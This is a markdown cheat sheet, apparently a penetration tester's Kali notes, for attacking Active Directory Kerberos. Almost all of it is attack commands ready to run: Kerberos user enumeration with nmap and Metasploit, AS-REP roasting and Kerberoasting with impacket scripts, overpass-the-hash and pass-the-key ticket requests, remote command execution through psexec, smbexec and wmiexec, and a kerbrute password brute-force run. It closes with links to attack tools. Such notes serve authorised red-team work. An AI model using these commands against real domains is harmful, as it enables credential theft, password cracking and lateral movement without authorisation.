```yaml
---
category: Uncategorized
tags: []
---
```

#### nmap
```bash - kali
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$DOMAIN_NAME'" $TARGET
```

#### MSF
```metasploit - kali
use auxiliary/gather/kerberos_enumusers 
```

# Check for Kerberoasting: 
```bash - kali
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```

# GetUserSPNs
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:$PASSWORD -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

# Kerberoasting: 
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:PASSWORD -outputfile <output_TGSs_file> 
```

#### Overpass The Hash/Pass The Key (PTK):
```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER:$PASSWORD -dc-ip $DOMAIN_CONTROLLER_IP
```

#### Using TGT key to execute remote commands from the following impacket scripts:
```bash - kali
python3 psexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 smbexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 wmiexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

```bash - kali
python kerbrute.py -dc-ip $TARGET -users /root/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain $DOMAIN_NAME -outputfile kb_extracted_passwords.txt
```

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero
